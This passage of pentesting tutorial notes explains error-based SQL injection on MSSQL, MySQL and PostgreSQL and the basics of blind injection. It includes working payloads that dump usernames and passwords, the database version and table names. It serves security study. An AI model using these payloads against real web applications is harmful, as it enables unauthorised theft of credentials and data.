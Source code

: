 Or even concatenate the username and the password:
```
9999 OR 1 IN (SELECT username%2bchar(64)%2bpassword FROM cms..users WHERE id=1); -- -
```

## MySQL error-based SQLi Exploitation
To exploit error-based SQL injection on MySQL, we will use the group by statement:
```
select 1,2 UNION select count(*), concat(version(), floor(rand(0)*2)) as x from information_schema.tables group by x;
```

### PostgreSQL Error-based SQLi Exploitation
To exploit SQLi on a web app using postgreeSQL, you have to leverage the cast technique we saw For MSSQL.
```
select cast(version() as numeric);
```

Or the tables, by iterating over the information_schema special database:
```
select cast ((select table_name from information_schema.tables limit 1 offset 0) as numeric);
select cast ((select table_name from information_schema.tables limit 1 offset 1) as numeric);
select cast ((select table_name from information_schema.tables limit 1 offset 2) as numeric);
```

### Developing Error-based SQLi Payloads
- You have to study how different DBMS functions work.
- You can refer to the following cheat sheets by PentestMonkey to craft your payloads:

 → MSSQL = http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
 
 → MySQL = http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

 → Postgre = http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet


## Exploiting BLIND SQL injections
- its a inference methodology you can use to extract database schemas and data.
- Once pentester find a way to tell when a condition is true or false, they can ask the database some simple true/false questions, like:

```
Is the first letter of the username **a**?
Does this database contain three tables?
etc
```
### Detecting current User
- user() returns the same of the user currently using the database
- substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.
- Functions can be used as argument of other functions.

Moreover, SQL allows you to test the output of a function in a true/false condition
```
select substring(user(), 1, 1) = 'r';
```
